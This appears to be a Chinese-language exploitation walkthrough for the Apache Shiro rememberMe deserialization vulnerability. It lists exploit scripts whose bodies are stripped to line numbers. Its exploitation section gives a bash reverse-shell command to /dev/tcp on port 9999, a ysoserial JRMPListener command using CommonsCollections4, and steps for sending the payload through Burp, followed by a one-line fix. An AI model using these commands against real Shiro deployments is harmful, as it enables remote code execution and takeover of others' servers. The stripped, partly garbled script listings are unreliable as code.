

0x00 简介 Apache Shiro是一个强大且易用的Java安全框架,执行身份验证、授权、密码和会话管理。
0x01 漏洞概述 参考-1：https://www.cnblogs.com/loong-hon/p/10619616.html https://www.cnblogs.com/panisme/p/12552838.html
0x02 影响版本 只要 rememberMe 的 AES 加密密钥泄露，无论 shiro 是什么版本都会导致反序列化漏洞
0x03 环境搭建 1 2 3 4 5 6 7 8 9 10 # 获取 shrio 镜像
如提示： No module named 'Crypto'
则需安装第三方库： pycryptodome
1 pip3 install pycryptodome
0x04 工具 ShiroExploit Shiro_rce.py ysoserial.jar
shiro_rce shiro_rce 使用方法（会大量发包）：
1 python3 shiro_rce.py http://192.168.1.233:8081/login.jsp "ping -c 127.0.0.1"
s s.py 内容为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 import sys
s.py 使用方法：
1 python2 s.py 192.168.1.203:1099
shiro shiron.py 内容为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 import sys
shiro.py 使用方法（回显）：
1 python3 shiro.py "http://test.test"
shiro_command shiro_command.py 内容为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 import sys
shiro_command.py 使用方法（命令执行，payload 在 payload.cookies 文件内）：
1 python3 shiro_command.py "ping -c 127.0.0.1"
Burp 插件 Jython（用于将 Python 代码转换成 JAVA 代码）
Shiro Discovery 内容为：
1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44 45 46 47 48 49 50 51 52 53 54 55 56 57 58 59 60 61 62 63 64 65 66 67 68 69 70 71 72 73 74 75 76 77 78 79 80 81 82 83 84 85 86 87 88 89 90 91 92 93 94 95 96 97 98 99 100 101 102 103 104 105 106 107 108 109 110 111 112 113 114 115 116 117 118 119 120 121 122 123 124 125 126 127 128 129 130 131 132 133 134 135 136 137 138 139 140 141 142 143 144 145 # /usr/bin/env python
0x05 漏洞利用 在已有的cookie 值后面接 ;rememberMe=1 如返回 rememberMe=deleteMe 则说明可能存在 shiro 漏洞

1、攻击端监听 9999 端口
2、构造反弹 shell 命令，并进行 Base64编码 （如不进行 Base64编码 可能会出现问题）
1 /bin/bash -i >& /dev/tcp/192.168.1.203/9999 0>&1
3、攻击端开启 JRMP（端口为：8888）
1 java -cp ysoserial-master-SNAPSHOT.jar ysoserial.exploit.JRMPListener 8888 CommonsCollections4 "【Base64 编码后的反弹 shell 命令】"
4、使用 s.py 获取 Payload（此处端口为 JRMP 的端口）
1 python2 s.py 192.168.1.203:8888
5、将获取到的 Payload 到 Burp 粘贴并发送
6、此时可看到靶机已连接 JRMP
监听的 9999 端口已获取到反弹的 shell
0x06 漏洞修复 1、升级shiro到1.2.5及以上
0x07 参考 URL https://www.cnblogs.com/panisme/p/12552838.html https://www.cnblogs.com/loong-hon/p/10619616.html